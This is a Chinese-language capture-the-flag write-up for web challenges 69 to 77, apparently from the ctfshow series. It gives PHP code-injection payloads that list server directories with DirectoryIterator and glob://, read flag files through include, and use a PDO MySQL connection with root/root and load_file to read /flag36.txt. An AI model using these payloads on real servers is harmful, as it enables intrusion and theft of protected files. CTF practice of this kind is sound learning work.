 ## web69

学了个其他扫目录的新姿势：

    c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo $f->__tostring()." 、";}

假如扫目标目录，把glob:///&#42;换掉换成目标目录即可，比如扫根目录下的bin就是换成/bin

## web70

同上题

## web71

先代码审计
[![](http://ltfa1l.top/wp-content/uploads/2021/01/wp_editor_md_9005b2eefb0dfa6732c1687d7b54332b.jpg)](wp_editor_md_9005b2eefb0dfa6732c1687d7b54332b.jpg)
查一下ob_get_contents()，它会获得缓冲区的输出但是不输出，然后缓冲区被清除，上面获得的缓冲区的又被正则给替换了。
做法同上题，不过payload后面exit()即可。

## web72

谢谢，我跳过了

## web73

我晕，73比72简单多了
扫目录发现是在根目录下的flagc.txt
include包含即可

## web74

同73

## web75

仍然可以用上面的方法得知flag是在根目录下的flag36.txt，用include来读取，发现这个目录不允许读取。
所以只好用mysql的load_file方法来读取。
要使用这个方法，需要建立mysql连接。尝试了一下，只能建立pdo连接才可以读取。
payload:

    c=try{$pdo=new pdo("mysql:host=localhost;dbname=ctftraining","root","root");}catch(PDDException $e){echo"数据库连接错误";}foreach($pdo->query("select load_file('/flag36.txt')") as $row){echo $row[0]."、";}echo"数据库连接成功";exit();

## web76

同上

## web77及以后

暂时真不会，886